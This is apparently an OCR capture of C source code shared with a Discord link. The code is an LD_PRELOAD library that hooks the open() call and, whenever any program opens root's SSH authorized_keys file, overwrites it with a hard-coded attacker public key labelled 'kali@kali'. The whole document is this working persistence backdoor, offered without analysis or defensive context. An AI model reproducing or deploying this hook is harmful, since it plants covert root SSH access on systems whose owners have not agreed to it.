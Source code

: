 ```c

// https://discord.gg/66N5ZQppU7

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <dlfcn.h>
#include <stdarg.h>

typedef int (*open_func_type)(const char *, int, ...);

static open_func_type orig_open = NULL;

static int target(const char *pathname) {
    if (pathname == NULL) return 0;

    return strcmp(pathname, "/root/.ssh/authorized_keys") == 0 ||
           strcmp(pathname, "authorized_keys") == 0 ||
           strcmp(pathname, ".ssh/authorized_keys") == 0;
}

int open(const char *pathname, int flags, ...) {
    va_list args;
    mode_t mode = 0;

    if (!orig_open) {
        orig_open = (open_func_type)dlsym(RTLD_NEXT, "open");
        if (!orig_open) {
            fprintf(stderr, "Error loading orig open function: %s\n", dlerror());
            exit(EXIT_FAILURE);
        }
    }

    if (flags & O_CREAT) {
        va_start(args, flags);
        mode = va_arg(args, int);
        va_end(args);
    }

    if (target(pathname)) {
        int fd = orig_open("/root/.ssh/authorized_keys", O_WRONLY | O_CREAT | O_TRUNC, 0600);
        if (fd < 0) {
            return fd;
        }

        const char *sshkey = "ssh-rsa ....snip kali@kali\n";
        write(fd, sshkey, strlen(sshkey));

        close(fd);
        return orig_open("/root/.ssh/authorized_keys", O_RDWR | O_APPEND, 0600);
    }

    if (flags & O_CREAT) {
        return orig_open(pathname, flags, mode);
    } else {
        return orig_open(pathname, flags);
    }
} 
```
